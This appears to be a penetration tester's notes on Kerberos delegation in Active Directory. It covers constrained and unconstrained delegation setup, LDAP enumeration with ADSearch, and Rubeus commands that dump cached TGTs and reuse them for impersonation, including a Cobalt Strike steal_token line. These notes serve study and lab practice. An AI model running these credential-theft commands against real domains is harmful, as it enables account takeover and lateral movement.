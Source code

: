 # Delegation

Delegation refers to the ability of a service to impersonate a user and access resources on their behalf.\


_For example:_

User will perform Kerberos authentication to a Web Server. When the web server needs to access to the database on behalf of user, delegation was used.

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/f1fGQL58OxwyXnLi-image.png" alt=""><figcaption></figcaption></figure>

There are 2 types of delegation:

* Constrained Delegation
* Unconstrained Delegation

| Constrained Delegation                                                                                                       | Unconstrained Delegation                                                                                                      |
| ---------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------- |
| Restricts the delegation of credentials to specific services on specific computers.                                          | Allows a service to delegate the user's credentials to any other service on any computer in the domain.                       |
| Suitable for scenarios where you want to limit the scope of delegation to specific services and servers, enhancing security. | Suitable for scenarios where a service needs to access resources on multiple servers across the network without restrictions. |
| Considered more secure                                                                                                       | Higher security risk                                                                                                          |

## **How it works**

When a user perform Kerberos authentication to the server with delegation enabled, the server will extracts the user's TGT from the TGS and caches it in memory. When the server need to access to other service on behalf of the user, it will use the user’s TGT to request for a TGS.

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/DL2VWTk2OYPSfgHa-image.png" alt=""><figcaption></figcaption></figure>

***

## Unconstrained Delegation

### **Setting Up**

To enable unconstrained delegation for a server, go to "Active Directory Users and Computers" and go to the Properties windows for the server.

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/GJCd8LSe41Ri65AE-image.png" alt=""><figcaption></figcaption></figure>

In the Delegation tab, select "Trust this computer for delegation to any service (Kerberos only)".

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/GNCzZJV4nWgXVGVH-image.png" alt=""><figcaption></figcaption></figure>

### **Enumeration**

We will be using [ADSearch](https://github.com/tomcarver16/ADSearch) for enumeration.

```shell
ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname
```

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/MT53KNs84CZXigEX-image.png" alt=""><figcaption></figcaption></figure>

Unconstrained delegation are always enabled on DC.

With a **SYSTEM/NT Authority** shell, use Rubeus to find all cached TGT on the machine with delegation turned on (in this case SQL.santaa.com).

```shell
Rubeus.exe triage
# OR run rubeus at an interval
Rubeus.exe monitor /interval:10 /nowrap
```

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/QITniUhd7KKhxWqi-image.png" alt=""><figcaption></figcaption></figure>

### **Exploit**

```shell
Rubeus.exe dump /luid:0x14794e /nowrap
Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFwj[...]MuSU8=
steal_token 1540	# Cobalt Strike
```

***

## Constrained Delegation

### **Setting Up**

To enable constrained delegation for a server, go to "Active Directory Users and Computers" and go to the Properties windows for the server. In the Delegation tab, select "Trust this computer for delegation to specified services only" and add a service for delegation.

![image.png](http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/oTXY9U3BUq19xff7-image.png)

### **Enumeration**

```shell
ADSearch.exe --search "(&(objectCategory=computer)(msds-allowedtodelegateto=*))" --attributes dnshostname,samaccountname,msds-allowedtodelegateto --json
```

<figure><img src="http://192.168.1.119/uploads/images/gallery/2024-01/scaled-1680-/Z9nOHCAkZPAItfD2-image.png" alt=""><figcaption></figcaption></figure>

&#x20;
